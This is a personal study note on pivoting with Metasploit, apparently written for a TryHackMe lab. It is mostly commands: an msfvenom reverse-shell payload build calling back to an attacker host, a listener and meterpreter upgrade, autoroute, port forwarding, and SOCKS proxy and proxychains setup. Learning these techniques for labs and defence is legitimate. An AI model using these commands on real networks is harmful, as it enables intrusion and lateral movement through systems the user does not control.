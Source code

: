 
# Pivoting and Proxying with Metasploit

## Introduction

Pivoting is when an attacker gains foothold on the compromised machine, which then need to be  used to send additional web traffic through to allow previously inaccessible machines to be reached, pivoting though the machine to other in the internal networking. Consider reading [[Port-Redirection-And-Tunnelling]], [[Lateral-Movement]], [[Proxies]] and [[Evading-Firewalls]].

Terms used are like many in cyebr security some what interchangable, I personally am looking for to the standardisation that will occur  

### Setup

Get regular or meterpreter shell on target:
```bash
msfvenom -p windows/x64/$SHELL/reverse_tcp -f exe -o shell.exe LHOST=$IP LPORT=$LPORT
```

Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```ruby
use multi/handler
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```

For convert shell to meterpreter
```ruby
sessions -u -1 # -1 is the sessions number
```

### Auto-Routing our Traffic

```ruby
use post/multi/manage/autoroute
set SESSION 1
set netmask /CIDR
set subnet $IP
exploit
```

Configuration, [reference](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)
```ruby
# Print the route 
route print
# run a interface cmd on host `ipconfig`, `ip a` ifconfig`
# Add routes based on IP address and CIDR range
route add $address/$cidr $meterpreterSession
# Remove one route
route remove
# Remove all routes
route flush

# For each further connections autoroute will 
# add, autoadd, delete, default per session you provide as an option
# Explaination
# We added a route NIC of SESSION-1 that is already running
# From SESSION-1 we do some to exploit another machine to getSESSION-2 
# We use autoroute to then internal to metasploit append a defined route to our SESSION-1 defined route

# SESSION-2 
use multi/manage/autoroute
set session 2
run -j

```

Meterpreter `portfwd`
```ruby
# From meterpreter add a portfwd
# This can be from an added route stored within metasploit
meterpreter > portfwd add -l $localPortToRedirectTo -p $destinationPortToForwardBack -r $remoteIPAddress
```

## Setting up Proxy with Metasploit

For MSF6
```ruby
use auxiliary/server/socks_proxy
# Never use 0.0.0.0 
set SRVHOST 127.0.0.1
# set a proxychains version 
# edit `sudo vim /etc/proxychains4.conf` to:
# `socks5 127.0.0.1 1080`
set VERSION 5
# Execute
exploit -j
```
#### For MSF5

Note: Depending on what version of Metasploit you are using, the Proxy Server module will be different. 
MSF5 and lower will have auxiliary/server/socks4a or socks5, MSF6 and newer will have `socks/auxiliary/socks\_proxy`. With MSF6, you will need to specify if you want to use SOCKS4(a) or SOCKS5. See [[SOCKS5-Protocol]].
```ruby
use auxiliary/server/socks4a
# msf6 !!
use auxiliary/server/socks_proxy 
run srvhost=127.0.0.1 srvport=9050 version=4a
curl --proxy socks4a://localhost:950 http://$target_ip
```
Configure proxychains
```bash
vim /etc/proxychains.conf
# comment lines that aren't required or you'll create a longer misconfigured chain
socks$4-5 127.0.0.1 $AUXILIARY-SERVER-PORT-NUMBER-GOES-HERE
```


## References

[THM Alh4r3d's Pivoting with Metasploit day 9 for AoC 4](https://tryhackme.com/room/adventofcyber4#)